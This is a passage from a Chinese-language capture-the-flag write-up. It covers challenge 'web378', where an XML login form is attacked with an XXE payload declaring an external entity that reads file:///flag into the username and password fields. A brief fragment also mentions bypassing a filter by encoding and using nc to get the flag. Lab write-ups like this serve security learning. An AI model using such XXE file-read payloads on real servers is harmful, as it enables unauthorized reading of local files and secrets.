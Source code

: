 我们发现编码后http彻底绕过

然后nc连接，成功获得flag



### web378

打开后是一个登录界面，ctrl+u查看一下源码

看到post里存在xxe

![image-20250519211113702](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202505192111760.png)

访问/doLogin，post传参

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE XXE [
<!ENTITY cmd SYSTEM "file:///flag">
]>
<user><username>&cmd;</username><password>&cmd;</password></user>
```

![image-20250519211058311](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202505192110602.png)

